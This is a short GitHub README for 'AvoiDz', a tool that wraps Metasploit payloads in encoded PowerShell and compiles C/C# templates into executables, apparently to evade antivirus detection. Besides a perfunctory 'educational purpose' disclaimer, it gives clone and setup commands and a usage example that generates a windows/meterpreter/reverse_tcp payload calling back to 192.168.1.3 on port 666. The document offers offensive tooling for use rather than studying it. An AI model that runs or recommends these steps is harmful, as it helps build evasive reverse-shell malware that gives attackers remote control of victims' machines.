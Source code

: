 # AvoiDz
AvoiDz
Author: Mascerano Bachir [ dev-labs ]
## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 


## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permission
         cd avoidz
         chmod +x setup.sh

    3°- Run setup script
         ./setup.sh == to check dependencies

    4°- Run avoidz tool == example
     ./avoidz.rb == help command
	 ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f temp1 == generate

